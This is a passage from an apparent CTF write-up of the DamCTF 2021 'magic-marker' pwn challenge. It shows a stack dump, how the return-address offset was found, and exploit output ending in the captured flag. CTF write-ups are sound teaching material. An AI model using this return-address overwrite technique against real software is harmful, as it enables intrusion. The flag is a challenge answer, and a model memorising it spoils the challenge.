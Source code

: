 Stack before going _off the grid_:

```
0x00007ffe2af22390│+0xc7f0: 0x0000000000000000
0x00007ffe2af22398│+0xc7f8: 0x0000000000000000
0x00007ffe2af223a0│+0xc800: 0x0000000000000000
0x00007ffe2af223a8│+0xc808: 0x0000000800000000
0x00007ffe2af223b0│+0xc810: 0x0000000000000213
0x00007ffe2af223b8│+0xc818: 0x068c9f5626adf300
0x00007ffe2af223c0│+0xc820: 0x0000000000401380  →  "Oh no! The ground gives way and you fall into a da[...]"
0x00007ffe2af223c8│+0xc828: 0x00007ffe2af22400  →  "jump up and down\n"
0x00007ffe2af223d0│+0xc830: 0x000000000040113d  →  "jump up and down\n"
0x00007ffe2af223d8│+0xc838: 0x0000000000401122  →  "I'm not sure I understand."
0x00007ffe2af223e0│+0xc840: 0x00007ffe2af22530  →  0x0000000000000001
0x00007ffe2af223e8│+0xc848: 0x0000000000000000
0x00007ffe2af223f0│+0xc850: 0x0000000000000000
0x00007ffe2af223f8│+0xc858: 0x000000000040085d  →  <main+173> xor eax, eax
```

Finding the location of the return address is pretty straight forward.  The `main+173` is a giveaway, but also you can just get from Ghidra `char local_c848` (correlates with stack offset: `+0xc858`).

Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/damctf2021/magic-marker/magic-marker'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to chals.damctf.xyz on port 31313: Done
[*] x,y = 38,39
Congratulations! You escaped the maze and got the flag!
dam{m4rvellOU5lY_M49n1f1cen7_m491C_m4rker5_M4KE_M4zE_M4n1PuL471oN_M4R91N4llY_M4L1c1Ou5}
```
